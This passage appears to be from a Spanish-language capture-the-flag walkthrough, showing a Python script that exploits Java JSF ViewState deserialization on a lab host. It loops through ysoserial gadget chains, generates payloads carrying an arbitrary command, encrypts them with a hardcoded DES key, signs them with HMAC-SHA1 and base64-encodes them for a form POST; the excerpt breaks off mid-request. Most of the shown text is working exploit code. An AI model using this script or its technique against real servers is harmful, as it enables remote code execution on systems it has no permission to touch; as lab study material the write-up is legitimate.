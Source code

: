 Listo, ahora si los tenemos, después de un rato probando cositas creamos este script:

```py
#!/usr/bin/python3

import hashlib, hmac
import requests
import base64
import time
import os
from pyDes import *

payloads = [
    'AspectJWeaver','BeanShell1','C3P0','Click1','Clojure','CommonsBeanutils1','CommonsCollections1','CommonsCollections2','CommonsCollections3',
    'CommonsCollections4','CommonsCollections5','CommonsCollections6','CommonsCollections7','FileUpload1','Groovy1','Hibernate1','Hibernate2',
    'JBossInterceptors1','JRMPClient','JRMPListener','JSON1','JavassistWeld1','Jdk7u21','Jython1','MozillaRhino1','MozillaRhino2','Myfaces1',
    'Myfaces2','ROME','Spring1','Spring2','URLDNS','Vaadin1','Wicket1'
]

# Firmamos el payload
# * https://book.hacktricks.xyz/pentesting-web/deserialization/java-jsf-viewstate-.faces-deserialization#custom-encryption
def encrypt(payload,key):
    cipher = des(key, ECB, IV=None, pad=None, padmode=PAD_PKCS5)
    enc_payload = cipher.encrypt(payload)
    return enc_payload

def hmac_siga(enc_payload,key):
    hmac_sig = hmac.new(key, enc_payload, hashlib.sha1)
    hmac_sig = hmac_sig.digest()
    return hmac_sig

url = "http://10.10.10.130:8080"
key = b'JsF9876-'

def sign_payload(cmd):
    '''
    Ejecutar comandos en el sistema y jugar con el output
    * https://python-para-impacientes.blogspot.com/2014/02/ejecutar-un-comando-externo.html
    '''
    for payload in payloads:
        print("Enviando " + payload)

        # Generamos payload
        # https://stackoverflow.com/questions/42339876/error-unicodedecodeerror-utf-8-codec-cant-decode-byte-0xff-in-position-0-in
        os.system('java -jar ysoserial.jar %s "%s" > %s.txt' % (payload, cmd, payload))
        payload_file = open('./' + payload + '.txt', 'rb')

        # Firmamos payload
        enc_payload = encrypt(payload_file.read(),key)
        hmac_sig = hmac_siga(enc_payload,key)

        # Pasamos a base64
        final_payload = base64.b64encode(enc_payload + hmac_sig)

        payload_file.close()

        data_post = {
            "j_id_jsp_1623871077_1:email" : "aaaaaaaaa", 
            "j_id_jsp_1623871077_1:submit" : "SIGN UP",
```